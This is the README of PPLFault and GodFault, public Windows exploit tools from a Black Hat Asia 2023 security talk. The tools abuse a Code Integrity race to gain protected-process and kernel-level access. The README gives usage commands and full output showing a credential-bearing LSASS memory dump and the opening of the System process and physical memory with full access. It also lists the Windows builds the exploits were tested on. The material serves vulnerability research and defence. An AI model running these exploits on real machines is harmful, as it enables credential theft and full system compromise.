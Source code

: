 # PPLFault

By [Gabriel Landau](https://twitter.com/GabrielLandau) at [Elastic Security](https://www.elastic.co/security-labs/).

From [PPLdump Is Dead. Long Live PPLdump!](https://www.blackhat.com/asia-23/briefings/schedule/#ppldump-is-dead-long-live-ppldump-31052) presented at [Black Hat Asia 2023](https://www.blackhat.com/asia-23).

[![PPLdump Is Dead. Long Live PPLdump!](http://img.youtube.com/vi/5xteW8Tm410/0.jpg)](http://www.youtube.com/watch?v=5xteW8Tm410 "PPLdump Is Dead. Long Live PPLdump!")

## PPLFault

Exploits a TOCTOU in Windows Code Integrity to achieve arbitrary code execution as WinTcb-Light then dump a specified process.  For more details on the exploit, see my [slides](http://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf) and/or [talk](https://x.com/GabrielLandau/status/1707773387731272085).

### Example Output

```
PS C:\Users\user\Desktop> cmd /c ver

Microsoft Windows [Version 10.0.25346.1001]
PS C:\Users\user\Desktop> tasklist | findstr lsass
lsass.exe                      992 Services                   0     76,620 K
PS C:\Users\user\Desktop> (Get-NtProcess -Access QueryLimitedInformation -Pid 992).Protection

Type           Signer
----           ------
ProtectedLight Lsa


PS C:\Users\user\Desktop> dir *.dmp
PS C:\Users\user\Desktop> .\PPLFault.exe -v 992 lsass.dmp
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 528 bytes of shellcode written over DLL entrypoint
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\PPLFaultTemp\PPLFaultPayload.dll
 [+] Placeholder: C:\PPLFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Dump saved to: lsass.dmp
 [+] Dump is 74.9 MB
 [+] Operation took 937 ms
PS C:\Users\user\Desktop> dir *.dmp


    Directory: C:\Users\user\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/1/2023  11:18 AM       78581973 lsass.dmp
```

## GodFault

Exploits the same TOCTOU as PPLFault.  However instead of dumping a process, it migrates to CSRSS and exploits a vulnerability in `win32k!NtUserHardErrorControlCall` from [ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD/blob/0a4720f7e07e86a9ac2783411b81efac14938e26/Exploit.c#L69-L81) to decrement `KTHREAD.PreviousMode` from `UserMode` (1) to `KernelMode` (0).  It proves "God Mode" access by opening `\Device\PhysicalMemory`, normally inaccessible from `UserMode`, as `SECTION_ALL_ACCESS`.

### Example Output

```
C:\Users\user\Desktop>GodFault.exe -v
 [?] Server does not appear to be running.  Attempting to install it...
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 2304 bytes of shellcode written over DLL entrypoint
 [+] CSRSS PID is 772
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\GodFaultTemp\GodFaultPayload.dll
 [+] Placeholder: C:\GodFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Testing initial ability to acquire PROCESS_ALL_ACCESS to System: Failure
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Thread 6248 (KTHREAD FFFFA283B0A62080) has been blessed
 [+] Testing post-exploit ability to acquire PROCESS_ALL_ACCESS to System: Success
 [+] Opened \Device\PhysicalMemory.  Handle is 0x1b4
 [+] Opened System process as PROCESS_ALL_ACCESS.  Handle is 0x1c0
 [+] Press any key to continue...
 [+] No cleanup necessary.  Backup does not exist.
```

## Python
PoC that achieves arbitrary code execution as WinTcb-Light without the CloudFilter API.  See [python/README.md](python/README.md).

## Tested Platforms

|  | Windows 11 22H2 22621.1702 (May 2023) | Windows 11 Insider Canary 25346.1001 (April 2023) |
| - | - | - |
| PPLFault | ✔️ | ✔️ |
| GodFault | ✔️ | ❌ Insider PreviousMode mitigation [bugchecks](https://twitter.com/GabrielLandau/status/1597001955909697536?s=20) |

# License

PPLFault is covered by the [ELv2 license](LICENSE.txt).  It uses [phnt](https://github.com/winsiderss/systeminformer/tree/25846070780183848dc8d8f335a54fa6e636e281/phnt) from SystemInformer under the [MIT license](phnt/LICENSE.txt).

# Credits
Inspired by [PPLdump](https://github.com/itm4n/PPLdump) by [Clément Labro](https://infosec.exchange/@itm4n), which Microsoft [patched](https://itm4n.github.io/the-end-of-ppldump/) in July 2022.

[ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD) was created by [Austin Hudson](https://twitter.com/ilove2pwn_), who released it when Microsoft patched PPLdump.
